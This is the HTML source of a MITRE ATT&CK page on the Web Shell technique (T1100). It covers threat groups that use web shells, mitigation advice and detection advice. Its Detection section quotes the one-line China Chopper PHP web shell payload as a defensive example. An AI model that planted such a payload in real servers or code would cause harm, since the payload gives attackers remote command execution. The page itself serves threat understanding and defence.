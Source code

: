 <div class="container-fluid">
 <h1>
  Web Shell
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server. In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (see, for example, China Chopper Web shell client).
    <span class="scite-citeref-number" data-reference="Lee 2013" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html" target="_blank">
       [1]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Web shells may serve as
    <a href="https://attack.mitre.org/techniques/T1108">
     Redundant Access
    </a>
    or as a persistence mechanism in case an adversary's primary access methods are detected and removed.
   </p>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1100
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Persistence, Privilege Escalation
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Linux, Windows, macOS
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       System Requirements:
      </span>
      Adversary access to Web server with vulnerability or account to upload and serve the Web shell file.
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Effective Permissions:
      </span>
      SYSTEM, User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Anti-virus, Authentication logs, File monitoring, Netflow/Enclave netflow, Process monitoring
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 1.0
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0050">
      APT32
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0050">
       APT32
      </a>
      has used Web shells to maintain access to victim websites.
      <span class="scite-citeref-number" data-reference="Volexity OceanLotus Nov 2017" id="scite-ref-2-a" onclick="scrollToRef('scite-2')">
       <sup>
        <a aria-describedby="qtip-1" data-hasqtip="1" href="https://www.volexity.com/blog/2017/11/06/oceanlotus-blossoms-mass-digital-surveillance-and-exploitation-of-asean-nations-the-media-human-rights-and-civil-society/" target="_blank">
         [2]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0087">
      APT39
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0087">
       APT39
      </a>
      has installed ANTAK and ASPXSPY web shells.
      <span class="scite-citeref-number" data-reference="FireEye APT39 Jan 2019" id="scite-ref-3-a" onclick="scrollToRef('scite-3')">
       <sup>
        <a aria-describedby="qtip-2" data-hasqtip="2" href="https://www.fireeye.com/blog/threat-research/2019/01/apt39-iranian-cyber-espionage-group-focused-on-personal-information.html" target="_blank">
         [3]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0073">
      ASPXSpy
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0073">
       ASPXSpy
      </a>
      is a Web shell. The ASPXTool version used by
      <a href="https://attack.mitre.org/groups/G0027">
       Threat Group-3390
      </a>
      has been deployed to accessible servers running Internet Information Services (IIS).
      <span class="scite-citeref-number" data-reference="Dell TG-3390" id="scite-ref-4-a" onclick="scrollToRef('scite-4')">
       <sup>
        <a aria-describedby="qtip-3" data-hasqtip="3" href="https://www.secureworks.com/research/threat-group-3390-targets-organizations-for-cyberespionage" target="_blank">
         [4]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0020">
      China Chopper
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0020">
       China Chopper
      </a>
      's server component is a Web Shell payload.
      <span class="scite-citeref-number" data-reference="Lee 2013" id="scite-ref-1-a" onclick="scrollToRef('scite-1')">
       <sup>
        <a aria-describedby="qtip-0" data-hasqtip="0" href="https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html" target="_blank">
         [1]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0009">
      Deep Panda
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0009">
       Deep Panda
      </a>
      uses Web shells on publicly accessible Web servers to access victim networks.
      <span class="scite-citeref-number" data-reference="CrowdStrike Deep Panda Web Shells" id="scite-ref-5-a" onclick="scrollToRef('scite-5')">
       <sup>
        <a aria-describedby="qtip-4" data-hasqtip="4" href="http://www.crowdstrike.com/blog/mo-shells-mo-problems-deep-panda-web-shells/" target="_blank">
         [5]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0074">
      Dragonfly 2.0
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0074">
       Dragonfly 2.0
      </a>
      commonly created Web shells on victims' publicly accessible email and web servers, which they used to maintain access to a victim network and download additional malicious files.
      <span class="scite-citeref-number" data-reference="US-CERT TA18-074A" id="scite-ref-6-a" onclick="scrollToRef('scite-6')">
       <sup>
        <a aria-describedby="qtip-5" data-hasqtip="5" href="https://www.us-cert.gov/ncas/alerts/TA18-074A" target="_blank">
         [6]
        </a>
       </sup>
      </span>
      <span class="scite-citeref-number" data-reference="US-CERT APT Energy Oct 2017" id="scite-ref-7-a" onclick="scrollToRef('scite-7')">
       <sup>
        <a aria-describedby="qtip-6" data-hasqtip="6" href="https://www.us-cert.gov/ncas/alerts/TA17-293A" target="_blank">
         [7]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0065">
      Leviathan
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0065">
       Leviathan
      </a>
      relies on web shells for an initial foothold as well as persistence into the victim's systems.
      <span class="scite-citeref-number" data-reference="FireEye APT40 March 2019" id="scite-ref-8-a" onclick="scrollToRef('scite-8')">
       <sup>
        <a aria-describedby="qtip-7" data-hasqtip="7" href="https://www.fireeye.com/blog/threat-research/2019/03/apt40-examining-a-china-nexus-espionage-actor.html" target="_blank">
         [8]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0049">
      OilRig
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0049">
       OilRig
      </a>
      has used Web shells, often to maintain access to a victim network.
      <span class="scite-citeref-number" data-reference="Unit 42 Playbook Dec 2017" id="scite-ref-9-a" onclick="scrollToRef('scite-9')">
       <sup>
        <a aria-describedby="qtip-8" data-hasqtip="8" href="https://pan-unit42.github.io/playbook_viewer/" target="_blank">
         [9]
        </a>
       </sup>
      </span>
      <span class="scite-citeref-number" data-reference="FireEye APT34 Webinar Dec 2017" id="scite-ref-10-a" onclick="scrollToRef('scite-10')">
       <sup>
        <a aria-describedby="qtip-9" data-hasqtip="9" href="https://www.brighttalk.com/webcast/10703/296317/apt34-new-targeted-attack-in-the-middle-east" target="_blank">
         [10]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0072">
      OwaAuth
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0072">
       OwaAuth
      </a>
      is a Web shell that appears to be exclusively used by
      <a href="https://attack.mitre.org/groups/G0027">
       Threat Group-3390
      </a>
      . It is installed as an ISAPI filter on Exchange servers and shares characteristics with the
      <a href="https://attack.mitre.org/software/S0020">
       China Chopper
      </a>
      Web shell.
      <span class="scite-citeref-number" data-reference="Dell TG-3390" id="scite-ref-4-a" onclick="scrollToRef('scite-4')">
       <sup>
        <a aria-describedby="qtip-3" data-hasqtip="3" href="https://www.secureworks.com/research/threat-group-3390-targets-organizations-for-cyberespionage" target="_blank">
         [4]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0185">
      SEASHARPEE
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0185">
       SEASHARPEE
      </a>
      is a Web shell.
      <span class="scite-citeref-number" data-reference="FireEye APT34 Webinar Dec 2017" id="scite-ref-10-a" onclick="scrollToRef('scite-10')">
       <sup>
        <a aria-describedby="qtip-9" data-hasqtip="9" href="https://www.brighttalk.com/webcast/10703/296317/apt34-new-targeted-attack-in-the-middle-east" target="_blank">
         [10]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0088">
      TEMP.Veles
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0088">
       TEMP.Veles
      </a>
      has planted webshells on Outlook Exchange servers.
      <span class="scite-citeref-number" data-reference="FireEye TRITON 2019" id="scite-ref-11-a" onclick="scrollToRef('scite-11')">
       <sup>
        <a aria-describedby="qtip-10" data-hasqtip="10" href="https://www.fireeye.com/blog/threat-research/2019/04/triton-actor-ttp-profile-custom-attack-tools-detections.html" target="_blank">
         [11]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  Ensure that externally facing Web servers are patched regularly to prevent adversary access through
  <a href="https://attack.mitre.org/techniques/T1068">
   Exploitation for Privilege Escalation
  </a>
  to gain remote code access or through file inclusion weaknesses that may allow adversaries to upload files or scripts that are automatically served as Web pages.
 </p>
 <p>
  Audit account and group permissions to ensure that accounts used to manage servers do not overlap with accounts and permissions of users in the internal network that could be acquired through Credential Access and used to log into the Web server and plant a Web shell or pivot from the Web server into the internal network.
  <span class="scite-citeref-number" data-reference="US-CERT Alert TA15-314A Web Shells" id="scite-ref-12-a">
   <sup>
    <a aria-describedby="qtip-11" data-hasqtip="11" href="https://www.us-cert.gov/ncas/alerts/TA15-314A" target="_blank">
     [12]
    </a>
   </sup>
  </span>
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Web shells can be difficult to detect. Unlike other forms of persistent remote access, they do not initiate connections. The portion of the Web shell that is on the server may be small and innocuous looking. The PHP version of the China Chopper Web shell, for example, is the following short payload:
  <span class="scite-citeref-number" data-reference="Lee 2013" id="scite-ref-1-a">
   <sup>
    <a aria-describedby="qtip-0" data-hasqtip="0" href="https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html" target="_blank">
     [1]
    </a>
   </sup>
  </span>
 </p>
 <p>
  <code>
   &lt;?php @eval($_POST['password']);&gt;
  </code>
 </p>
 <p>
  Nevertheless, detection mechanisms exist. Process monitoring may be used to detect Web servers that perform suspicious actions such as running
  <a href="https://attack.mitre.org/software/S0106">
   cmd
  </a>
  or accessing files that are not in the Web directory. File monitoring may be used to detect changes to files in the Web directory of a Web server that do not match with updates to the Web server's content and may indicate implantation of a Web shell script. Log authentication attempts to the server and any unusual traffic patterns to or from the server and internal network.
  <span class="scite-citeref-number" data-reference="US-CERT Alert TA15-314A Web Shells" id="scite-ref-12-a">
   <sup>
    <a aria-describedby="qtip-11" data-hasqtip="11" href="https://www.us-cert.gov/ncas/alerts/TA15-314A" target="_blank">
     [12]
    </a>
   </sup>
  </span>
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html" name="scite-1" rel="nofollow" target="_blank">
        Lee, T., Hanzlik, D., Ahl, I. (2013, August 7). Breaking Down the China Chopper Web Shell - Part I. Retrieved March 27, 2015.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.volexity.com/blog/2017/11/06/oceanlotus-blossoms-mass-digital-surveillance-and-exploitation-of-asean-nations-the-media-human-rights-and-civil-society/" name="scite-2" rel="nofollow" target="_blank">
        Lassalle, D., et al. (2017, November 6). OceanLotus Blossoms: Mass Digital Surveillance and Attacks Targeting ASEAN, Asian Nations, the Media, Human Rights Groups, and Civil Society. Retrieved November 6, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2019/01/apt39-iranian-cyber-espionage-group-focused-on-personal-information.html" name="scite-3" rel="nofollow" target="_blank">
        Hawley et al. (2019, January 29). APT39: An Iranian Cyber Espionage Group Focused on Personal Information. Retrieved February 19, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-4">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.secureworks.com/research/threat-group-3390-targets-organizations-for-cyberespionage" name="scite-4" rel="nofollow" target="_blank">
        Dell SecureWorks Counter Threat Unit Threat Intelligence. (2015, August 5). Threat Group-3390 Targets Organizations for Cyberespionage. Retrieved August 18, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-5">
      <span class="scite-citation-text">
       <a class="external text" href="http://www.crowdstrike.com/blog/mo-shells-mo-problems-deep-panda-web-shells/" name="scite-5" rel="nofollow" target="_blank">
        RYANJ. (2014, February 20). Mo’ Shells Mo’ Problems – Deep Panda Web Shells. Retrieved September 16, 2015.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-6">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.us-cert.gov/ncas/alerts/TA18-074A" name="scite-6" rel="nofollow" target="_blank">
        US-CERT. (2018, March 16). Alert (TA18-074A): Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors. Retrieved June 6, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="7.0">
    <li>
     <span class="scite-citation" id="scite-7">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.us-cert.gov/ncas/alerts/TA17-293A" name="scite-7" rel="nofollow" target="_blank">
        US-CERT. (2017, October 20). Alert (TA17-293A): Advanced Persistent Threat Activity Targeting Energy and Other Critical Infrastructure Sectors. Retrieved November 2, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-8">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2019/03/apt40-examining-a-china-nexus-espionage-actor.html" name="scite-8" rel="nofollow" target="_blank">
        Plan, F., et all. (2019, March 4). APT40: Examining a China-Nexus Espionage Actor. Retrieved March 18, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-9">
      <span class="scite-citation-text">
       <a class="external text" href="https://pan-unit42.github.io/playbook_viewer/" name="scite-9" rel="nofollow" target="_blank">
        Unit 42. (2017, December 15). Unit 42 Playbook Viewer. Retrieved December 20, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-10">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.brighttalk.com/webcast/10703/296317/apt34-new-targeted-attack-in-the-middle-east" name="scite-10" rel="nofollow" target="_blank">
        Davis, S. and Caban, D. (2017, December 19). APT34 - New Targeted Attack in the Middle East. Retrieved December 20, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-11">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2019/04/triton-actor-ttp-profile-custom-attack-tools-detections.html" name="scite-11" rel="nofollow" target="_blank">
        Miller, S, et al. (2019, April 10). TRITON Actor TTP Profile, Custom Attack Tools, Detections, and ATT&amp;CK Mapping. Retrieved April 16, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-12">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.us-cert.gov/ncas/alerts/TA15-314A" name="scite-12" rel="nofollow" target="_blank">
        US-CERT. (2015, November 13). Compromised Web Servers and Web Shells - Threat Awareness and Guidance. Retrieved June 8, 2016.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>

